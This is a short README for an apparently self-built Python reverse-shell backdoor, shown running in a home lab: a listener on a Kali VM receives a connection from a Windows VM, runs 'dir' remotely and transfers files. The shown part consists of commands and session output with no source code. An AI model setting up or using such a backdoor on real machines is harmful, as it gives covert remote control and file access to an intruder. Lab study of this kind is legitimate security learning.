 # Backdoor

This is a basic version with limited functionality, using the `json` protocol for serialization.
Broad exception handling was added in both listener and backdoor for testing and debugging. 
Detailed messages on errors appear in the backdoor machine. 

## Usage

Execute commands on backdoored machine, including `cd` and upload and download of files.
Use `exit` to quit.

## Kicking the Tyres

On the Kali VM:
```shell
backdoor$ python3 listener.py
[+] Listening on 192.168.122.108:4444
```

On the Windows VM

```shell
backdoor> ..\venv\Scripts\python.exe .\reverse_backdoor.py
```

Back to the Kali machine:

```shell
[+] Accepted connection from 192.168.122.63:51872
>> dir
 Volume in drive C has no label.
 Volume Serial Number is 2CEC-EEFF

 Directory of C:\Users\Nina\PycharmProjects\ymrir\backdoor

31/01/2022  22:52    <DIR>          .
31/01/2022  22:52    <DIR>          ..
31/01/2022  22:45             2,467 listener.py
31/01/2022  17:00                10 README.md
31/01/2022  22:52             2,610 reverse_backdoor.py
               3 File(s)          5,087 bytes
               2 Dir(s)   2,133,176,320 bytes free

>> upload madeit.jpg
[+] Upload Succesful
>> upload sortir.txt
[+] Upload Succesful
>> upload sortir.pdf
[+] Upload Succesful
>> exit
                                         
```